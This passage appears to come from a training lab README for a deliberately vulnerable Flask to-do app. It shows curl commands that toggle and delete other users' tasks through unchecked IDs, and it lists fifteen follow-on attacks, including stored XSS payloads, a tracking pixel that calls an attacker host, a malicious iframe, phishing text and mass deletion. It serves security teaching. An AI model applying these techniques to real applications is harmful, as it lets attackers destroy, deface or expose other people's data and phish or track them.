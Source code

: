 > Get your `session` cookie from DevTools → Application → Cookies.

### Exploit: Toggle someone else’s completion flag

```bash
curl -i -b 'session=<YOUR_FLASK_SESSION_COOKIE>' \
  http://127.0.0.1:5000/toggle/42
```

### Exploit: Delete someone else’s task

```bash
curl -i -b 'session=<YOUR_FLASK_SESSION_COOKIE>' \
  http://127.0.0.1:5000/delete/42
```

> The delete route does not verify ownership and always flashes “Task deleted” even if nothing happened — use `/edit/<id>` first to confirm the ID exists.

### What you should observe

* You can modify, toggle, or delete tasks **you don’t own**. That’s an **IDOR/BAC** flaw.

### Additional BAC / IDOR scenarios to try

1. Mark a victim’s task as done/undone repeatedly via `/toggle/<id>` to disrupt their workflow.
2. Overwrite the task title with attacker-controlled HTML (e.g., `<img src=x onerror=...>`) via `/edit/<id>` to weaponize stored XSS in someone else’s account.
3. Set the `public` checkbox when editing a victim task to expose previously private notes on the `/feed` page.
4. Clear the `public` checkbox on a collaborator’s public task to silently hide it from the feed.
5. Append instructions like “Send password to …” into another user’s task title to phish them when they next log in.
6. Iterate through IDs and delete every task you find, demonstrating how destructive a simple IDOR script can be.
7. Flip the same task repeatedly to generate misleading activity patterns a blue team would struggle to trust.
8. Edit a victim’s task to include tracking pixels (e.g., `<img src="https://attacker.tld/pixel">`) and monitor when they open their list.
9. Change multiple victim tasks to include unique IDs so you can map which task IDs belong to which victims as they revert the edits.
10. Use `/edit/<id>` to add markdown-looking text that tricks the victim into following attacker-supplied “instructions”.
11. Combine delete and edit IDORs: first edit a victim task to warn them, then immediately delete it to show race-condition style tampering.
12. Force a victim’s “done” tasks back to incomplete status so their dashboard always looks unfinished.
13. Rename tasks with profanity or defacements to demonstrate reputational risk from unauthorized edits.
14. Modify someone’s task to embed an `<iframe>` pointing to a malicious site that loads whenever they view their list.
15. Script an attack that toggles every discovered task ID once per minute, creating chaos across all users simultaneously.

---